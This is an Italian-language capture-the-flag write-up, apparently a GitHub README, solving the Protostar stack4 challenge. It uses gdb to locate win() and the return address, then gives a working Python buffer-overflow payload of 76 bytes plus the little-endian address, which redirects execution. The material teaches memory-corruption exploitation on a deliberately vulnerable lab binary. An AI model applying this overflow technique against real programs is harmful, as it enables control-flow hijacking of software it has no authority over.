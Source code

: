 # Protostar_stack 4 - Stack-based buffer overflow

## Obiettivo della sfida
Eseguire la funzione _win()_ a tempo di esecuzione, ciò modifica il flusso di esecuzione poichè provoca il salto del codice alla funzione _win()_

## Tentativo
Proviamo a mandere in buffer overflow la variabile _buffer_ con:
```bash
> python -c 'print "a" * 80' | /opt/protostar/stack4
#output
Segmentation fault
```
Il programma scrive le prime 64 "a" in _buffer_ e le restanti vengono scritte in locazioni contigue alcune riservate alla memorizzazione della variabile EBP per la gestione dello stack.
### Riflessione
A differenza della sfida precedente qui non abbiamo una variabile esplicita da sovrascrivere. Abbiamo bisogno di una cella che se sovrascritta provoca l'alterazione del flusso di esecuzione.

### Indirizzo di ritorno
Essa è una cella di dimensioni pari all'architettura(4 byte per Protostar) e contiene l'indirizzo della prima istruzione da eseguire al termine della funzione descritta nello stack frame.

## Strategia di attacco
Sovrascrivere l'indirizzo di ritorno con quello della funzione _win()_ per farlo occorre scoprire l'indirizzo della cella di memoria che contiene l'indirizzo di ritorno e l'indirizzo della funzione _win()_

### Recuperare l'indirizzo di win()
Utilizziamo **gdb**
```bash
> gdb -q /opt/protstar/bin/stack4
(gdb) > p win
$1 = {void (void)} 0x80483f4 <win>
# 0x80483f4 indirizzo di win()
```

### Recuperare l'indirizzo di ritorno
Per ottenere l'indirizzo di ritorno di _main()_ è necessario ricostruire il **layout dello stack** di _stack4_ per farlo(senza il sorgente) bisogna disassemblare il main e possiamo farlo con la funzione **disassemble** di gdb quindi lanciamo
```bash
(gdb) > disassemble main
# Dump of assembler code
```
Analizziamo il dump e vediamo che i registri coinvolti sono:
- ESP: punta al top dello stack
- EBP: puntatore che consente di accedere alle variabili dell'interno frame

Inseriamo un **breakpoint** alla prima istruzione del main (abbiamo l'indirizzo perchè abbiamo il dump).
```bash
(gdb) > b *0x8048408
# breakpoint 1
# eseguiamo il programma
(gdb) > r
# monitoriamo l'evoluzione dello stack monitorando gli indirizzi di EBP e ESP ad ogni passo
(gdb) > p $ebp
$2 = (void *) 0xbffffdc8
(gdb) > p $esp
$3 = (void *) 0xbffffd4c
# 0xbffffd4c indirizzo di ritorno prima dell'esecuzione del main
# eseguiamo le istruzioni assembly passo dopo passo con
(gdb) > si
```

## Come sfruttare le vulnerabilità
Una volta seguita l'evoluzione dello stack possiamo capire quante "a" dobbiamo ripetere fino ad arrivare all'indirizzo di ritorno.  
Quindi dobbiamo dare in input un numero di "a" pari a  
`sizeof(buffer) + sizeof(padding) + sizeof(vecchio EBP)`.  
La dimensione del buffer è **64 byte**, la dimensione del padding è **8 byte** e la dimensione del vecchio EBP che è **4 byte**; quindi possiamo dire che servono **76 "a"** per arrivare all'indirizzo di ritorno.  
Arrivati alla cella dell'indirizzo di ritorno scriviamo l'indirizzo di _win()_ (al contrario perchè è Little Endian).

### Istruzioni da eseguire
```bash
> python -c 'print "a" * 76 + "\xf4\x83\x04\x08"' | /opt/protostar/bin/stack4
# sfida vinta
Segmentation fault
```

## Commenti sulla sfida
Il crash è causato dal fatto che dopo l'esecuzione di _win()_ viene letto il valore successivo dello stack rovinato di conseguenza il programma crasha ma non ci interessa perchè la sfida è vinta.
